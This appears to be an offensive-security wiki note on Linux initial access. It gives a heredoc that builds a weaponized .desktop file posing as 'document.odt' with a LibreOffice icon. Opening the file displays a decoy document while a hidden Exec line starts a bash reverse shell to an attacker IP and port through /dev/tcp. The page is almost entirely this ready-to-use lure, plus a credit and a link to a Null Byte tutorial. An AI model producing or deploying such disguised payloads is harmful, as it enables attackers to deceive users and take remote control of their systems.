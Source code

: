 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - client-side-attacks
  - linux
credits:
  - tokyoneon
---
```

# Manual

## Fake Document

```
$ cat > malicious_document.desktop << EOF
#!/usr/bin/env xdg-open

[Desktop Entry]
Encoding=UTF-8
Name=document.odt
Exec=libreoffice --writer $(pwd)/.real_document.odt; /bin/bash -i >& /dev/tcp/<attacker_IP>/<attacker_PORT> 0>&1 &
Terminal=false
Type=Application
Icon=libreoffice-writer
EOF
```

---
## References

### Backlinks

- [[Desktop Files|Helpers: Desktop Files]]

### Null Byte

- [Null Byte: Pop a Reverse Shell with a Video File by Exploiting Popular Linux File Managers](https://null-byte.wonderhowto.com/how-to/pop-reverse-shell-with-video-file-by-exploiting-popular-linux-file-managers-0196078)
